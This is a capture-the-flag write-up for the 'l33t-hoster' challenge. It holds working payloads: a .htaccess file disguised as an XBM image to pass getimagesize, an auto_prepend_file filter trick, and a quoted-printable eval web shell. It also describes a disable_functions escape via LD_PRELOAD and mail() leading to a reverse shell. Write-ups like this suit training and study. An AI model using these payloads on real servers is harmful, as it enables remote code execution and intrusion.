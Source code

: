 # l33t-hoster

## Vuln

```php
$tmp_name = $_FILES["image"]["tmp_name"];
$name = $_FILES["image"]["name"];
$parts = explode(".", $name);
$ext = array_pop($parts);

if (empty($parts[0])) {
    array_shift($parts);
}

if (count($parts) === 0) {
    die("lol filename is empty");
}
```
- We can upload .htaccess file with `..htaccess` filename.
- But we have to bypass getimagesize.
- Since getimagesize lazy checks image header, only some signatures, width and height.
- We have to apache .htaccess's bad characters e.g.) non valid chracters except #(comment)
- See the following source code.
        - https://github.com/php/php-src/blob/master/ext/standard/image.c#L1381
        - https://github.com/php/php-src/blob/master/ext/standard/image.c#L1033

```c
if (php_get_xbm(stream, NULL)) {
	return IMAGE_FILETYPE_XBM;
}
return IMAGE_FILETYPE_UNKNOWN;
```

```
static int php_get_xbm(php_stream *stream, struct gfxinfo **result)
{
    char *fline;
    char *iname;
    char *type;
    int value;
    unsigned int width = 0, height = 0;

	if (result) {
		*result = NULL;
	}
	if (php_stream_rewind(stream)) {
		return 0;
	}
	while ((fline=php_stream_gets(stream, NULL, 0)) != NULL) {
		iname = estrdup(fline); /* simple way to get necessary buffer of required size */
		if (sscanf(fline, "#define %s %d", iname, &value) == 2) {
			if (!(type = strrchr(iname, '_'))) {
				type = iname;
			} else {
				type++;
			}

			if (!strcmp("width", type)) {
				width = (unsigned int) value;
				if (height) {
					efree(iname);
					break;
				}
			}
			if (!strcmp("height", type)) {
				height = (unsigned int) value;
				if (width) {
					efree(iname);
					break;
				}
			}
		}
		efree(fline);
		efree(iname);
	}
	if (fline) {
		efree(fline);
	}

	if (width && height) {
		if (result) {
			*result = (struct gfxinfo *) ecalloc(1, sizeof(struct gfxinfo));
			(*result)->width = width;
			(*result)->height = height;
		}
		return IMAGE_FILETYPE_XBM;
	}

	return 0;
}
```
- If there is a line with `#define %s %d`, we can put any lines in the file.
- So if we make .htaccess file like this.

```
#define 915eefb1c517499ad090b8b05623cdad_width 1337
#define 915eefb1c517499ad090b8b05623cdad_height 1337
blahblah
```

- We can easily bypass the getimagesize filter.

## Exploit

### RCE

- Now we can upload .htaccess with arbitrary data.
- auto_prepend value supports php protocol, we can run the php script.
- However there is another filter. (if file contains `<?`, we cannot upload the file)
- We can easily bypass with filter convert function.

```
php_value auto_prepend_file "php://filter/convert.quoted-printable-decode/resource=./juno.asdf"
AddType application/x-httpd-php .txt
```

```
=0A=3c?php error_reporting(E_ALL); ini_set("display_errors", 1); eval($_GET[x]); ?>
```

### SBX Escape

- There are disable_functions :( .
```
pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,exec,passthru,shell_exec,system,proc_open,popen,pcntl_exec,posix_mkfifo, pg_lo_import, dbmopen, dbase_open, popen, chgrp, chown, chmod, symlink,apache_setenv,define_syslog_variables, posix_getpwuid, posix_kill, posix_mkfifo, posix_setpgid, posix_setsid, posix_uname, proc_close, pclose, proc_nice, proc_terminate,curl_exec,curl_multi_exec,parse_ini_file,show_source,imap_open,fopen,copy,rename,readfile,readlink,tmpfile,tempnam,touch,link,file_put_contents,file,ftp_connect,ftp_ssl_connect,
```
- We can use LD_PRELOAD and mail trick to escape SBX. (https://blog.csdn.net/qq_27446553/article/details/80235811)
- I used reverse shell.

### Bypass Alarm.

- There is a simple captcha, but the alarm occurs in 0.01sec.

```
newa.it_value.tv_sec = 0LL;
newa.it_value.tv_usec = 10000LL;              //  1000000
newa.it_interval.tv_sec = 0LL;
newa.it_interval.tv_usec = 0LL;
setitimer(ITIMER_REAL, &newa, 0LL);
```
- We can ignore sigalrm with sigignore function.

```
sigignore(SIGALRM);

```

